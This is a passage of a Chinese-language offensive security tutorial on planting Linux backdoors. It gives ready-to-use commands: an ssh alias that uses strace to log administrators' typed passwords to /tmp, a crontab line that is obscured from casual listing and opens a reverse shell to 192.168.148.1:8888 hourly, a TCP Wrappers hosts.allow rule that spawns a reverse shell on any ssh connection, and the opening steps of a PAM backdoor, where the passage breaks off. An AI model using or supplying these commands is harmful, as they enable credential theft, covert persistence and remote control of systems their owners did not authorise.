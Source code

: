 ### 7.1 操作系统后门

#### 7.1.1 Linux

##### Linux操作系统后门

**alias**

alias 命令可以设置别名

    执行 ll 相当于执行 ls -l
    
        

    alias ll=ls -l
    
        

**ssh 后门设计**

    在管理员使用 ssh 时生效，后门将输入的 ssh 地址账号密码保存到 /tmp/sshpwd-date.log 中
    strace 命令可以跟踪进程运行时，系统调用和接受的信号
    
        

    alias ssh='strace -o /tmp/sshpwd-`date '+%Y-%m-%d-%H-%M-%S-%s'`.log -e read,write,connect -s2048 ssh'
    
        

**计划任务**

    每隔 60 分钟执行一次，将 shell 反弹到 192.168.148.1:8888(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.148.1/8888;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
    
        

**TCP\_Wrappers**

TCP\_Wrappers 是一个工作在应用层的安全工具-
以 ssh 为例，每当有 ssh 的连接请求时，tcpd（Tcp Wrapper的守护进程）即会截获请求，-
当请求满足配置文件中的规则，则放行，否则中断连接，配置文件中可设置匹配规则后执行命令

使用 ssh 连接目标服务器触发反弹 shell

    echo 'ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/192.168.148.1/8888 0>&1") & :allow' > /etc/hosts.allow
    
        

**PAM后门**

PAM 是一种认证机制，提供一套统一的 API，可根据需要给不同的服务配置不同的认证方式

**1）添加后门：**

查看本地 PAM 版本

    apt list --installed|grep pam
    
        

2）下载解压对应版本的 PAM 源码 http://www.linux-pam.org/library/

    wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
    tar -xzvf Linux-PAM-1.1.8.tar.gz
    